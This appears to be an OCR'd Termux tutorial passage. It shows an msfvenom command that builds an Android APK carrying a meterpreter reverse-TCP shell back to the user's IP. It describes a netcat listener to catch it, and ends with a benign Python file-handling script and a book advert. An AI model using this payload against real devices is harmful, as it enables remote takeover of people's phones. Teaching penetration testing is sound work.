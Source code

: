 #### **Payload and Virus with Termux**

`msfvenom` is a payload generator tool from the Metasploit Framework that is used to create custom payloads for various platforms. Below are examples of how to create payloads using `msfvenom`. Remember, these payloads are for ethical hacking and penetration testing purposes only and should only be used in a legal context, with explicit permission.

##### Android Payload

- **Description**: Create a reverse TCP payload for an Android application.
- **Command**:

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=<Your-IP> LPORT=4444 R > android_payload.apk
```

- **Explanation**: This command generates an Android APK file (`android_payload.apk`) that establishes a reverse TCP connection to the specified IP address (`<Your-IP>`) and port (`4444`).

![Mastering Python for Ethical Hacking: A Comprehensive Guide to Building 50 Hacking Tools](https://cdn.buymeacoffee.com/uploads/rewards/2024-10-07/1/074122_1.png@1200w_0e.png)

#### Mastering Python for Ethical Hacking: A Comprehensive Guide to Building 50 Hacking Tools

Let’s embark on this journey together, where you will learn to use Python not just as a programming language, but as a powerful weapon in the fight against cyber threats

[-5% $25 on buymeacoffee](https://buymeacoffee.com/halildeniz/e/296372)

#### **Setting Up a Listener with `nc` for Metasploit Payloads**

Netcat is a versatile networking tool used for a variety of network tasks, including setting up simple listeners:

- **Listen on a Port**: To set up a listener, use the following command:

- Here, `4444` is the port number. Ensure it matches the port number used in your payload.
- **Wait for Connection**: Once you run this command, Netcat will listen on the specified port for incoming connections. When the target executes the payload (e.g., a reverse shell), you should see the connection on this terminal.

#### **Coding With Termux**

###### **Python: File Operations**

1. **Script Example**:
    - This Python script will create a file, write some text to it, then read and print the content, and finally close the file, [Programming with Python on Termux: From Basics to Advanced](https://denizhalil.com/2024/09/10/python-programming-on-termux/).
    - Save this script as `file_ops.py`.

```
# file_ops.py
def main():
    filename = "testfile.txt"

    # Writing to a file
    with open(filename, 'w') as file:
        file.write("Hello, Termux!")

    # Reading from the file
    with open(filename, 'r') as file:
        content = file.read()
        print(content)

if __name__ == "__main__":
    main()
```
